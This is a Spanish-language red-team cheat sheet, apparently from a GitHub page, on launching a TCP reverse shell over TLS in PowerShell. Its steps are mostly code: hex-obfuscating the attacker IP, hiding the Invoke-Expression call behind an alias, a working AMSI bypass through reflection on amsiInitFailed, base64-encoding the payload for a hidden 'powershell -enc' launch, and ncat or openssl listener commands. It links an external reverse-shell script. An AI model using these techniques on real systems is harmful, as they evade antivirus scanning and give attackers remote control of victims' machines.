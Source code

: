 ## **TCP Reverse Shell mediante TLS en Powershell**

Todos los agradecimientos a estos dos enlaces, es puro virtuosismo lo que hay ahí, esto no es más que un copia y pega:

https://0xdarkvortex.dev/index.php/2019/07/17/red-team-ttps-part-1-amsi-evasion/

https://github.com/3v4Si0N/HTTP-revshell

**1.- Ofuscar la IP**

Básicamente se trata de crear los valores en hexadecimal:

```
printf "%x,%x,%x,%x\n" 192 168 11 34
c0,a8,b,22
```

```powershell
$px = "c0","a8","b","22"
$p = ($px | ForEach { [convert]::ToInt32($_,16) }) -join '.'
```

**2.- Ofuscar la cadena IEX**

Establecemos un alias con los valores de una cadena aleatoria, extrayendo la cadena con los índices del array:

```powershell
$x = "new-exercise"
Set-alias $x  ($x[$true-4] + ($x[[byte]("0x" + "FF") - 263]) + $x[[byte]("0x" + "ba") - 193]) .'
```
Aquí otro método que he visto, pero la idea es utilizar el tuyo propio:
```powershell
[array]$shurmano = "I","n","t","E","r","n","e","X" ;
set-alias new-exercise $($shurmano | foreach { if ($_ -cmatch '[A-Z]' -eq $true) {$x += $_}}; $x)
```

**3.- Una vez ofuscado, deshabilitar AMSI para lanzar script**
Echad un vistazo a la función PatchMe del [tls reverse shell(https://github.com/g4ngli0s/chuletas/blob/master/bypasspowershell/tlsrevshell.ps1)] donde lo que realmente hace es cifrar esto:

```powershell
[Delegate]::CreateDelegate(("Func``3[String, $(([String].Assembly.GetType('Syste' + 'm.Ref' + 'lect' + 'ion.Bi' + 'ndi' + 'ngF' + 'lags')).FullName), System.Reflection.FieldInfo]" -as [String].Assembly.GetType('Syste' + 'm.Typ' +
 'e')), [Object]([Ref].Assembly.GetType('Syste' + 'm.Man' + 'agemen' + 't.Automa' + 'tion.Am' + 'siU' + 'ti' + 'ls')),('GetF' + 'ield')).Invoke('am' + 'siIn' + 'itFai' + 'led',(('NonPu' + 'blic,S' + 'tatic') -as [String].Assembly
.GetType('Syste' + 'm.Refl' + 'ection.B' + 'indingF' + 'lags'))).SetValue($null,$True)
```

**4.- Pasar el script de powershell a base64**

```
cat tlsrevshell.ps1 | iconv -f UTF8 -t UTF16LE | base64 -w 0
```

**5.- Ejecutarlo desde consola PS**

```
powershell -noP -sta -w 1 -enc ENC64SCRIPT
```

Como muestra de estás técnicas os dejo el [TCP reverse shell con TLS](https://github.com/g4ngli0s/chuletas/blob/master/bypasspowershell/tlsrevshell.ps1), como listener en vuestra máquina kali podéis usar ncat u openssl:

```
ncat --allow <IP> -vnl <PORT> --ssl
```
```
openssl req -x509 -newkey rsa:4096 -keyout key.pem -out cert.pem -days 365 -nodes
openssl s_server -quiet -key key.pem -cert cert.pem -port <PORT>
```

